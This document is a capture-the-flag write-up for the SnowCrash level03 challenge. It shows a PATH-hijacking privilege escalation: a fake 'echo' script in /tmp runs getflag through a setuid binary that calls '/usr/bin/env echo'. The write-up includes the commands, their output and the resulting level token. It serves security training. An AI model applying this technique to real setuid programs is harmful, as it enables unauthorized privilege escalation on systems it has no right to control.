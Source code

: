 # 1st Step
List the file with `ls -l` will show us :  
`-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03`  
***Notes** : The owner of the file is `flag03` so the user `level03` can execute it as `flag03`*  
  
Let's execute it to see what's appening
```
level03@SnowCrash:~$ ./level03
Exploit me
```  
If we look at the executable with `strings`:  
```
level03@SnowCrash:~$ strings level03 | grep "Exploit me"
/usr/bin/env echo Exploit me
level03@SnowCrash:~$
```  

# 2nd Step
We can see that the binary use `/usr/bin/env echo` to print "Exploit me", so we'll exploit it as suggested.  
Create a simple file named "echo" and make it execute `/bin/getflag` when call. Due to permissions restrictons, we will create it in `/tmp`.  
*Don't forget to give it the good writes*  
```
level03@SnowCrash:~$ cd /tmp
level03@SnowCrash:/tmp$ echo '/bin/getflag' > echo
level03@SnowCrash:/tmp$ chmod 777 echo
level03@SnowCrash:/tmp$ ls -l echo
-rwxrwxrwx 1 level03 level03 13 Mar 11 23:37 echo
```  
Go back to level03 home folder then add `/tmp` to the variable env `$PATH`  
```
level03@SnowCrash:/tmp$ export PATH=/tmp:$PATH
level03@SnowCrash:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```  
Now we can re-execute `level03`
```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```  
Level03 passed !  
  
*Useful website: [$PATH](https://www.commentcamarche.net/faq/3585-bash-la-variable-d-environnement-path) ; [Privilege Escalation](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)* 